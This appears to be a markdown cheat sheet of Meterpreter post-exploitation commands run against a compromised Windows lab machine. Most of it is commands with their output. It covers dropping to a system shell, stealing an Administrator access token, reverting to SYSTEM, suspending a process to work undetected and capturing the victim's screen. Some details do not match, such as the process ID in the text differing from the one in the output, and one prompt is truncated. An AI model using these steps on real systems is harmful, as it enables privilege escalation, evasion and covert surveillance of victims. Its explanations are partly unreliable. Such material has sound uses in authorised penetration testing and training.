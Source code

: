 ## droping from meterpreter to system command shell
```python
eterpreter > shell
Process 3964 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```

## Stealing the access token of user to get same access
```python
meterpreter > steal_token 4316
Stolen token with username: VAGRANT-2008R2\Administrator
meterpreter > getuid
Server username: VAGRANT-2008R2\Administrator
```
- The `steal_token` command in Meterpreter is used to impersonate a user by stealing their access token, which allows an attacker to gain the same level of access as the targeted user.
- In the above example, the command `steal_token 4740` is being used to steal the access token of a process with the process ID(ID) of 4740. This means that the attacker will gain the same level of access as the user associated with the process.

## Changing the thread of meterpreter from new to old to gain more access to system
```python
meterpreter > rev2self
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
- The "rev2self" command in Meterpreter is used to change the context of the current thread back to the original thread that launched the Meterpreter payload. This original thread has more privileges and can perform more actions on the system.

## Suspending the process
```python
meterpreter > suspend 1332
[*] Suspending: 1332
[*] Targeting process with PID 1332...
```
- It is used to suspend a process running on the compromised system, allowing the attacker to manipulate its memory or other resources without being detected by the system.
- After suspending a process, the process is temporarily paused, which means it stops executing its instructions.

## Capturing screenshot using Meterpreter:
```python
meterpreter > screenshot
Screenshot saved to: /home/hyok/PrJcQWEJ.jpeg
```

## Displaying the Screenshot:
```python
┌──(hyok㉿kali)-[~]
└─$ eog PrJcQWEJ.jpeg
```
